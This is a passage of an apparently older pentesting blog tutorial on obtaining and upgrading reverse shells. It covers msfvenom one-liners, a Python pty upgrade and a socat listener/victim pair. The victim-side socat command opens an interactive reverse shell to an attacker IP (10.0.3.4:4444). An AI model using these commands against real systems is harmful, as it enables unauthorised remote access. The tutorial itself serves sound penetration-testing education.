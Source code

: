 Pentest Monkey has a great [cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) outlining a few different methods, but my favorite technique is to use Metasploit's `msfvenom` to generate the one-liner commands for me.

Metasploit has several payloads under "cmd/unix" that can be used to generate one-liner bind or reverse shells:

![msfvenom payloads](/images/2017/07/msfvenom_payloads.png)

Any of these payloads can be used with `msfvenom` to spit out the raw command needed (specifying LHOST, LPORT or RPORT). For example, here's a netcat command not requiring the `-e` flag:

![Netcat shell](/images/2017/07/netcat_shell_cmd.png)

And here's a Perl oneliner in case `netcat` isn't installed:

![Perl shell](/images/2017/07/perl_shell_cmd.png)

These can all be caught by using netcat and listening on the port specified (4444).

# Method 1: Python pty module
One of my go-to commands for a long time after catching a dumb shell was to use Python to spawn a pty. The [pty module](https://docs.python.org/2/library/pty.html) let's you spawn a psuedo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
This will let you run `su` for example (in addition to giving you a nicer prompt)

![Python PTY](/images/2017/07/python_pty.png)

Unfortunately, this doesn't get around some of the other issues outlined above. SIGINT (Ctrl-C) will still close Netcat, and there's no tab-completion or history. But it's a quick and dirty workaround that has helped me numerous times.

# Method 2: Using socat
[socat](http://www.dest-unreach.org/socat/doc/socat.html) is like netcat on steroids and is a very powerfull networking swiss-army knife. Socat can be used to pass full TTY's over TCP connections.

If `socat` is installed on the victim server, you can launch a reverse shell with it. You *must* catch the connection with `socat` as well to get the full functions.

The following commands will yield a fully interactive TTY reverse shell:

**On Kali (listen)**:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
**On Victim (launch)**:
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
